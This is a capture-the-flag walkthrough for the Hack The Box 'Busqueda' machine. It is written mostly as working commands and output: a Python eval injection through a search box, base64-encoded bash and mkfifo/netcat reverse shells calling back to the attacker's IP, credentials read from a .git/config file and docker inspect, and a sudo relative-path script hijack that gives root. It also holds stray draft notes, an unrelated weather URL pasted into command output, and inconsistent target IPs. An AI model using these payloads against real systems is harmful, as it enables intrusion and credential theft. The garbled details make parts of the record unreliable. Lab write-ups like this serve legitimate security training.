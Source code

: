 
### Foothold

I run nmap and find there is an open http port on `80`

```
nmap -sV -sC 10.129.109.237

...

80/tcp open  http    Apache httpd 2.4.52
```

When I visit the website, I am redirected to the domain `searcher.htb`

I add this domain to the hosts file:

```
  echo "10.10.11.208  searcher.htb" | sudo tee -a /etc/hosts
```


# Add more details here...

There is a search box on the website, I enter the following text and get the response....

```
  ') + str(__import__('os').system('id')) #
...
uid=1000(svc) gid=1000(svc) groups=1000(svc) https://www.accuweather.com/en/search-locations?query=0
```

I run a local netcat listener:

```
nc -nvlp 1337
```

I send a base64 encoded reverse shell payload in the query parameter:

```
')+ str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43MS8xMzM3IDA+JjE=|base64 -d|bash'))#
```

This connects to the netcat listener:

```
$ nc -nvlp 1337

listening on [any] 1337 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.109.237] 56362
bash: cannot set terminal process group (1494): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ ls
```

I get the user flag:

```
svc@busqueda:/var/www/app$ cat /home/svc/user.txt
cat /home/svc/user.txt
ebae8d32f7a95db33c71fce81ea95215
```

### PrivEsc

`.git/config` file has a reference to `gitea.searcher.htb` subdomain

```
svc@busqueda:/var/www/app$ cat /var/www/app/.git/config
cat /var/www/app/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

We get the password: `jh1usoih2bkjaspwe92`

I login to `ssh svc@10.10.11.208` with the above password. 

I add the `gitea` subdomain:

```
echo "10.10.11.208 gitea.searcher.htb" | sudo tee -a /etc/hosts
```

What are the files where we have root rights?

```
svc@busqueda:~$ sudo -l
...
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)
```

I use `jq` to parse the json:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
...
"Env": [

      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"

],
```

I get the password `yuiu1hoiu4i5ho1uh`

I can now login to the gitea.searcher.htb/administrator/scripts website with the password above, with the username `administrator`.


# Does all this make sense?

I inspect the system-checkup.py file since we have the ability to execute the /opt/scripts/system-checkup.py file with root privileges on the remote host. During our analysis of the code, we uncover that the full-checkup argument, which we haven't examined yet, executes a bash script named full-checkup.sh .

The system-checkup.py is executed successfully when ran from the /opt/scripts/ directory where the full-checkup.sh file is present.

I run the following commands on the `svc` user:

```
cd /opt/scripts/
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

So, let's create a file /tmp/full-checkup.sh and insert a reverse shell payload into it.

```
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 9001 >/tmp/f" > /tmp/full-checkup.sh

chmod +x /tmp/full-checkup.sh
```

I start a netcat listener on my local `nc -nvlp 9001`

Finally, we run the following command on the remote host from the /tmp directory to trigger the reverse shell.

```
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

The root flag can be obtained at /root/root.txt

```
$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.109.237] 37132
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
5e32e971baae4d9c18dee05b1fa9bd5b
```


